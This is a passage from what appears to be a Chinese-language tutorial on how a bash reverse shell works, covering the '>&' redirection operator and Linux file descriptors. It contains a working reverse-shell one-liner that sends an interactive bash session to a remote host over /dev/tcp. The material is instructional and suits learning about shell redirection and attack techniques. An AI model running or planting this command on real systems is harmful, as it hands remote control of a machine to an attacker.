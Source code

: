 在攻击机上输入 hostname -I，查询到受害者的ip，基本上就是已经完成了一个反弹shell的功能

<img src="0.相关知识.assets/image-20220910173025561.png" alt="image-20220910173025561" style="zoom:80%;" />



**注意：**
但是这里有一个问题，就是我们在受害者机器上依然能看到我们在攻击者机器中执行的指令 ，如下图所示，我们马上解决

![image-20220910173048414](0.相关知识.assets/image-20220910173048414.png)

#### **4. >&**

这个符号作用就是混合输出（错误、正确输出都输出到一个地方）

```
bash -i > /dev/tcp/192.168.159.134/2333 0>&1 2>&1
```

















### 有关内容：

#### 1. 从文件描述（file descriptor）符说起

​		linux文件描述符可以理解为**linux跟踪打开文件而分配的一个数字句柄**，这个数字本质上是一个文件句柄，通过句柄就可以实现文件的读写操作。

当Linux启动的时候会默认打开三个文件描述符，分别是：

- 标准输入：standard input 0 （默认设备键盘）
- 标准输出：standard output 1（默认设备显示器）
- 错误输出：error output 2（默认设备显示器）
